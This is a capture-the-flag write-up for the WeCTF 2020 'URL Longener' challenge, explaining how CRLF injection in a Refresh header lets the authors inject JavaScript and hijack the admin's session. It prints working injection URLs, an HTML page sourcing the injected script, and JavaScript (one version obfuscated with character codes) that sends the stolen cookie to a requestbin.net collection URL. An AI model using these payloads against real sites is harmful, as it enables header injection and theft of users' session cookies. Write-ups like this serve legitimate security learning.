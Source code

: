 # URL Longener

## Description

Shou just wrote a short url generator to generate not so short urls.

Note 1: Flag is in the link admin created. Each user needs to be in the same IP and UA to get access their data.

Note 2: Server is running on a patched version to compensate the NGINX issue. Code here is solely for providing some insights. Do not test your payload on it.

## Solution

The [official writeup](https://github.com/shouc/wectf-2020#writeup---urllongener-crlf-injection--cors-misconf)
takes a much simpler route than we did, but we thought our CORS-free solution was interesting to consider.

When we create a link, we supply the URL that goes in a `Refresh` header sent to its visitors:
```python
location = html.escape(urllib.parse.unquote(location))
return 302, {"Refresh": "3; url=%s" % location}, "Redirecting you to %s in 3s..." % location
```
This mechanism, unlike an HTTP redirect, prevents us from serving our code under the target origin.

We quickly notice that we control the headers of the redirect response due to insufficient input validation.
We do this by inserting a URL-encoded newline into the location parameter. For example,
```
http://url.w-va.cf/redirect?location=http://google.com/#%0AContent-Type:%20text/javascript
```
does set the `Content-Type` header as shown. We considered what we could do with this, but did not think of CORS.

Instead, we jumped straight to manipulating the request body, which can be done by inserting two newlines instead of one:
```
http://url.w-va.cf/redirect?location=http://google.com/#%0A%0A<html>body</html>
```
Of course, this fails to do the desired thing due to location being `html.escape`d in the server code.

Now, to make things cleaner, we will just forgo the `http://google.com` URL entirely:
as it turns out, empty `url` in a `Refresh` header causes a simple refresh of the page instead of an error.

We eventually gave up on circumventing the escaping: unsurprisingly, `html.escape` seems to do its job properly.
This means that we cannot make the redirect serve an HTML page with a `script` tag.
But what if we use a server we control to serve a page that _sources a script_ from a redirect URL?
There is seemingly no obstacle to having JS code in the body. An indeed,
```html
<!DOCTYPE html>
<html lang="en">
<head>
<script src="http://url.w-va.cf/redirect?location=%0A%0Aalert('pwned');" />
</head>
</html>
```
does almost what we want, except for all the trailing garbage after our injection, such as the `Set-Cookie` header.

...

*Wait a second!*

The redirect page sends a `Set-Cookie` header.
This cookie is a timestamped JWT, but this turns out to not matter to us.
Our _goal_ is to pass for an admin, which means that we must match their fingerprint:
```python
@make_response
def get_index(req):
    fingerprint = base64.b64encode(str(req).encode("utf-8"))
    try:
        # get such user's array
        result = links[fingerprint]
```
where `make_response` ultimately does this:
```python
def get_authorization(req):
    try:
        cookies = req[req.index("Cookie:") + 1:]
        for i in cookies:
            if "url_longener_auth" in i:
                return jwt.decode(i.split("=")[1], server_secret_key, algorithms=['HS256'])['token']
```
The other contents of the fingerprint basically just come from easily obtainable headers (`User-Agent`),
so it is sufficient for us to poach the cookie. We can do this by catching it into a string literal like so:
```js
function foo() {
  window.location = "http://requestbin.net/r/17z2eu81?c=" + content;
}
const content = `;foo()//
```
Why write it like this? Because the server-supplied response body also contains all of the payload,
all the remaining headers and all of the body will be caught into `content`, making the full response this:
```
[...]
Refresh: 3; url=

function foo() {
  window.location = "http://requestbin.net/r/17z2eu81?c=" + content;
}
const content = `;foo()//
Set-Cookie: url_longener_auth=[...]

Redirecting you to

function foo() {
  window.location = "http://requestbin.net/r/17z2eu81?c=" + content;
}
const content = `;foo()//
```
This is almost what we want, except that we're not allowed single or double quotes for the URL,
and using backticks would break `content`.
There may have been a smarter solution, but we ended up just rewriting the code as
```js
function f(){a=[104,116,116,112,58,47,47,114,101,113,117,101,115,116,98,105,110,46,110,101,116,47,114,47,49,55,122,50,101,117,56,49,63,99,61];s=a.map(function(c){return String.fromCharCode(c)}).join([]);location=s+btoa(t);}t=`;f()//
```
And this is nearly all there was to it: after getting the JWT, by serving the supplied [index.html](./index.html),
we run [request.py](./request.py) which sets the headers needed for the fingerprint.

The last step frustrated us somewhat, as we hadn't considered that we might not need `X-Forwarded-For`.
Sending what we got in `requestbin` would break the fingerprint, and the correct solution turned out to be omitting it.
